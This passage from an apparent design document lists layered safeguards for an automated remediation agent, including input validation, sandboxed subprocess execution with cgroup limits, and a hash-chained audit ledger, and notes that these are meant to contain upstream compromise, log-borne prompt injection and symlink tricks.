  - Strict JSON schema validation (DisallowUnknownFields)
  - Alphanumeric parameter regex enforcement
            |
            v
[Layer 3: Safety Gates & Environmental Invariants]
  - syscall.Flock mutual exclusion
  - Leaky-bucket flapping circuit breaker (<= 2 per 10m)
  - Direct procfs / statfs kernel precondition verification
            |
            v
[Layer 4: Sandboxed Subprocess Execution]
  - fork/exec without shell (execve)
  - Demote to UID 10005, GID 10005 (remediation-agent)
  - Mount namespace with read-only root (MS_RDONLY)
  - Canonical symlink evaluation (filepath.EvalSymlinks)
  - Cgroups v2 clamps (pids.max = 10, memory.max = 256M)
  - Hardware wall-clock deadline with SIGKILL termination
            |
            v
[Layer 5: Non-Repudiable Cryptographic Audit Ledger]
  - Sequential SHA-256 recurrence hash chain
  - Fail-closed write enforcement (halt mutations if disk full)
  - Standalone verification CLI tool
```

These five layers ensure that even if an adversary successfully compromises an upstream monitoring service, crafts an indirect prompt injection attack through application log lines, or manipulates local file symlinks, the deterministic safety gates enforce strict boundary containment and prevent unauthorized host mutation.
